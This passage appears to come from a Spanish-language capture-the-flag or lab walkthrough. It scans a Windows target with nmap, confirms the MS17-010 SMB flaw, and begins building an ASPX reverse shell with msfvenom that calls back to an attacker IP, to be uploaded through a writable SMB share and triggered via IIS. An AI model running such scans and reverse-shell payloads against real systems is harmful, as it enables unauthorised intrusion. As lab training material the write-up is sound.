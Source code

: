 Objetivo: Confirmar la existencia de vulnerabilidades explotables en el servicio Microsoft SMBv1.

6.1 💻 Comando de Escaneo

<img width="1015" height="557" alt="escaneo de vulnerabilidades con nmap" src="https://github.com/user-attachments/assets/bbba140c-b19c-46e2-a007-28696f40b520" />


Se utiliza el conjunto de scripts smb-vuln-* de Nmap:
````
nmap --script vuln -p 445,139 10.10.137.195
````

📊 Resultado: Vulnerabilidad Crítica MS17-010El escaneo confirmó la presencia de una vulnerabilidad de alta criticidad en el servicio.
````
Script Resultado

smb-vuln-ms17-010 VULNERABLE
````

El servidor es vulnerable a la vulnerabilidad de ejecución remota de código en servidores Microsoft SMBv1 (MS17-010).

Estado: VULNERABLE

ID: CVE-2017-0143

Factor de Riesgo: HIGH

6.2 📚 Detalle de la Vulnerabilidad (CVE-2017-0143)

Se procede a consultar la vulnerabilidad en bases de datos públicas para entender su alcance.

<img width="1417" height="595" alt="vulenrabilidad detalles" src="https://github.com/user-attachments/assets/2a052b99-048a-4061-899f-a4a5eb3aeeca" />

Conclusión: Se ha identificado una segunda y crítica ruta de acceso a la máquina mediante la explotación del fallo MS17-010.

## 🚀 Paso 7: Creación y Ejecución de Payload ASPX (Acceso Inicial)

La debilidad crítica en la configuración de permisos del recurso compartido SMB (nt4wrksv), combinado con el servidor web IIS 10.0 activo en un puerto no estándar (49663), crea una vía de acceso directa al servidor web.

Objetivo: Generar una reverse shell en formato ASPX, subirla al share de SMB, y ejecutarla a través del puerto web 49663 para obtener una conexión al sistema.

7.1 💻 Creación de la Carga Útil (Payload)

<img width="875" height="129" alt="creo carga util aspx" src="https://github.com/user-attachments/assets/6ccab6d0-f410-495e-b425-06742f1ccca3" />


Utilizamos msfvenom para generar un payload de reverse shell compatible con el entorno Windows (x64) y el servidor IIS.

Comando
````
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.24.253 LPORT=8080 -f aspx -o exploit.aspx
````
